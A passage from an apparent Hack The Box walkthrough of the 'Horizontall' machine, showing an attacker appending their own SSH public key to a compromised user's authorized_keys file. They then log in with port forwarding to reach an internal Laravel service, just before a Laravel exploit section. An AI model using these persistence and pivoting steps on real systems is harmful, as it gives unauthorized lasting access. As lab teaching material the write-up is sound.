 ```text
|  ...=O+         |
+----[SHA256]-----+
```

Take the public key and create an echo statement that we can paste on the box:

```text
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDg0PqOGRanCQeaQ8E<SNIP>
gYbDv/iV4j/BDTJCrtfwlbskA0qveVguz15rTc09Fr4NE= root@kali" >> authorized_keys
```

This is just echoing the contents of the id_rsa.pub file to a file called authorized_keys. Copy this to the clipboard and then switch back to the box:

```text
strapi@horizontall:~$ cd .ssh/
strapi@horizontall:~/.ssh$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDg0PqOGRanCQeaQ8E<SNIP>
gYbDv/iV4j/BDTJCrtfwlbskA0qveVguz15rTc09Fr4NE= root@kali" >> authorized_keys
```

With the public key from Kali in the authorized_keys file on the box we can now SSH in as the user strapi setting up port forwarding at the same time:

```text
┌──(root💀kali)-[~/htb/horizontall]
└─# ssh -i id_rsa -L 8000:localhost:8000 strapi@10.10.11.105
The authenticity of host '10.10.11.105 (10.10.11.105)' can't be established.
ECDSA key fingerprint is SHA256:rlqcbRwBVk92jqxFV79Tws7plMRzIgEWDMc862X9ViQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.105' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-154-generic x86_64)
Last login: Thu Sep 30 19:55:29 2021 from 10.10.14.210
$ 
```

## Laravel Exploit

The above command is simply saying any traffic received locally on port 8000 forward through SSH to the box on port 8000. Now we can access the website on the box using our local browser on Kali:

![horizontall-laravel](/assets/images/2021-09-30-22-24-15.png)
